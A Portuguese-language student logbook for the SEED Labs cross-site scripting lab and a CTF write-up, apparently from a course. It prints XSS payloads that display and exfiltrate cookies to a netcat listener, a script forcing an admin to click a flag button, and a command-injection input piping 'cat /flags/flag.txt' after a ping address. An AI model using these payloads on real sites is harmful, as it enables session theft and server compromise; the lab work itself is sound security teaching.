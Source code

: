 # SEED Labs - Cross-Site Scripting (XSS) Attack Lab

## Preparation: Getting Familiar with the "HTTP Header Live" tool

Utilizou-se a ferramenta `"HTTP Header Live"` para capturar e analisar pedidos HTTP, em particular, o pedido que é feito quando um utilizador (neste caso Alice) clica no botão `Add friend` no perfil de `Samy`, ou seja, quando se adiciona `Samy` à lista de amigos. O pedido HTTP capturado encontra-se abaixo. Este será útil na `task 4`.

![](./screenshots/logbook10_task0.png) 

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

## Task 1: Posting a Malicious Message to Display an Alert Window

Depois de fazer _log in_ como Samy (username **samy** e password **seedsamy**) por exemplo, tal como é sugerido no guião, colocou-se o seguinte código JavaScript no campo `Brief description` do seu perfil. Outro campo do perfil onde é esperado _input_ do utilizador, por exemplo `Location`, seria válido, porque não é apenas no campo `Brief description` que o _input_ do utilizador não é devidamente tratado.

```html
<script>alert('XSS');</script>
```

![](./screenshots/logbook10_task1_1.png)

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` o código é executado e uma janela de alerta é exibida. 

![](./screenshots/logbook10_task1_2.png) 

## Task 2: Posting a Malicious Message to Display Cookies

Muito semelhante à `task 1`. Tal como é sugerido no guião, substitui-se o código JavaScript da `task 1` pelo seguinte: 

```html
<script>alert(document.cookie);</script>
```

![](./screenshots/logbook10_task2_1.png) 

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` (neste caso), o código é executado e uma janela de alerta é exibida com as cookies do próprio utilizador. 

![](./screenshots/logbook10_task2_2.png) 

## Task 3: Stealing Cookies from the Victim’s Machine

![](./screenshots/logbook10_task3.png) 

```sh
[12/09/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.7 56350
GET /?c=Elgg%3Dlutf37jd6iap3futo623ouohpe HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```

## Task 4: Becoming the Victim’s Friend


# CTF - Semanas 10 e 11

## Desafio 1

Ao entrar na página web, deparamo-nos com um form simples onde podemos inserir texto, que depois pode ser visto pelo administrador.

![img](screenshots/apply_flag1.PNG)  

![img](screenshots/apply_flag2.PNG)

Se o input do form não for *sanitized*, então esta página fica vulnerável a um ataque XSS, uma vez que é possível colocar uma tag `<script>` no código html da página.

O objetivo é fazer o administrador clicar no botão "Give the flag", uma vez que o utilizador não autenticado não tem permissões para o fazer (mesmo que não esteja `disabled`)

```html
<form method="POST" action="" role="form">
    <div class="submit">     
        <input type="submit" id="giveflag" value="Give the flag" disabled="">      
    </div>
</form>
```

Então, vamos utilizar um script que realize essa ação ao carregar a página, de modo a que seja feito do lado do administrador.

```html
<script> window.onload = function(){document.getElementById('giveflag').click();} </script>
```

![img](screenshots/apply_flag3.PNG)  

![img](screenshots/apply_flag4.PNG)


## Desafio 2

Ao explorar o site, encontramos algumas funcionalidades disponíveis a um utilizador não autenticado, que podemos tentar explorar. Nomeadamente existe funcionalidade que nos permite testar a nossa ligação a um ip específico.

![img](screenshots/ping1.PNG) 

Pela forma como é feito, percebemos que é usado o comando linux `ping`, ou seja, existe uma shell de linux a correr no servidor, à qual temos acesso. Sabendo pelo eunuciado que a flag se encontra em `/flags/flag.txt` vamos usar a shell para imprimir o conteúdo deste ficheiro, usando como input `0.0.0.0 | cat /flags/flag.txt`.

![img](screenshots/ping2.PNG) 


